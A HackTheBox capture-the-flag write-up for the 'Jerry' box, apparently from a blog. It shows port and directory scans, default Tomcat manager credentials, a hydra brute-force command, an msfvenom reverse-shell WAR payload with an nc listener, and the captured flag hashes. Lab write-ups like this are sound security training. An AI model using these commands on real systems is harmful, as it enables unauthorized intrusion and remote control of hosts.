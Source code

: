 ```yaml
---
layout: post
title: HackTheBox - Jerry
date: 2021-08-15 00:36:34 +0100
tags: [HackTheBox]
image: /assets/img/htb/machines/windows/easy/jerry/Jerry.png
---
```


## Enumeration

### `nmap` scan

{% highlight bash %}
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Jerry-full-port-scan.txt 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.11s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
{% endhighlight %}

### Port 80 (Apache Tomcat/7.0.88)

#### `gobuster`

{% highlight bash %}
$ gobuster dir -u http://$TARGET:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x .jsp
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.95:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              jsp
[+] Timeout:                 10s
===============================================================
2021/08/14 20:48:16 Starting gobuster in directory enumeration mode
===============================================================
/aux                  (Status: 200) [Size: 0]
/com2                 (Status: 200) [Size: 0]
/com3                 (Status: 200) [Size: 0]
/com4                 (Status: 200) [Size: 0]
/com1                 (Status: 200) [Size: 0]
/con                  (Status: 200) [Size: 0]
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]             
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/index.jsp            (Status: 200) [Size: 11398]                 
/lpt2                 (Status: 200) [Size: 0]                     
/lpt1                 (Status: 200) [Size: 0]                     
/manager              (Status: 302) [Size: 0] [--> /manager/]     
/nul                  (Status: 200) [Size: 0]                     
                                                                  
===============================================================
2021/08/14 20:49:58 Finished
===============================================================
{% endhighlight %}

Since I was curious, I looked for exploits against **Apache Tomcat/7.0.88**:

{% highlight bash %}
$ searchsploit Tomcat 7.0.88
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)                                              | windows/webapps/42953.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)                                              | jsp/webapps/42966.py
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

{% endhighlight %}

But it appears that the server was not vulnerable:

![](/assets/img/htb/machines/windows/easy/jerry/CVE_2017_12617.png)

#### `nikto`

`nikto` revealed that the credentials to access the `/manager` are the default ones:

- **username**: `tomcat` 
- **password**: `s3cret` 

![](/assets/img/htb/machines/windows/easy/jerry/nikto.png)

> We could also bruteforce them using `hydra`:

{% highlight bash %}
$ hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 $TARGET http-get /manager/html
{% endhighlight %}

![](/assets/img/htb/machines/windows/easy/jerry/hydra.png)

Once authenticated, the first thing that should come to our eyes is the fact that we can deploy WAR files:

![](/assets/img/htb/machines/windows/easy/jerry/tomcat.png)

## Exploitation

First we need to create a malicious WAR file using `msfvenom`, then we can start a listener:

{% highlight bash %}
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=$(vpnip) LPORT=1234 -f war > shell.war
Payload size: 1102 bytes
Final size of war file: 1102 bytes
$ nc -lnvp 1234
listening on [any] 1234 ...
{% endhighlight %}

![](/assets/img/htb/machines/windows/easy/jerry/war.png)

If we click on **List applications** or if we simply refresh the page, the `shell` application should appear:

![](/assets/img/htb/machines/windows/easy/jerry/shell_app.png)

Clicking on it will execute it. Then we have a shell as 😯 ... **SYSTEM**!!!

![](/assets/img/htb/machines/windows/easy/jerry/shell.png)

{% highlight cmd %}
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"    
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
{% endhighlight %}

___

## Interesting links

- [C2 - SILENTTRINITY](https://github.com/byt3bl33d3r/SILENTTRINITY)
